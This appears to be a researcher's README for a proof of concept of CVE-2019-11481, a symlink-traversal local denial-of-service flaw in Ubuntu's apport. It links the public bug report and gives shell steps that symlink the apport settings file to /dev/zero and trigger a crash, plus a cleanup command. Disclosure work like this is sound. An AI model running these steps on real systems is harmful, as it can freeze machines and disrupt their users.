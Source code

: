 # Symlink traversal in apport (CVE-2019-11481)

[CVE-2019-11481](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-11481)
is a local denial of service vulnerability in
[apport](https://launchpad.net/ubuntu/+source/apport).
If `~/.config/apport/settings` is a symlink,
then apport will read the target file,
even if it requires root privileges to read.
Apport usually errors out immediately after reading the file, though,
so I do not believe it is possible to exploit this vulnerability in an interesting way.
The full bug report is public on `bugs.launchpad.net`:
[bug 1830862](https://bugs.launchpad.net/ubuntu/+source/apport/+bug/1830862).

## Instructions

Please be aware that these instructions are likely to make your
computer completely unresponsive for several minutes.

```bash
make
mkdir -p ~/.config/apport
ln -s /dev/zero ~/.config/apport/settings
./segv
```

After running the exploit, don't forget to remove the malicious symlink:

```bash
rm ~/.config/apport/settings
```
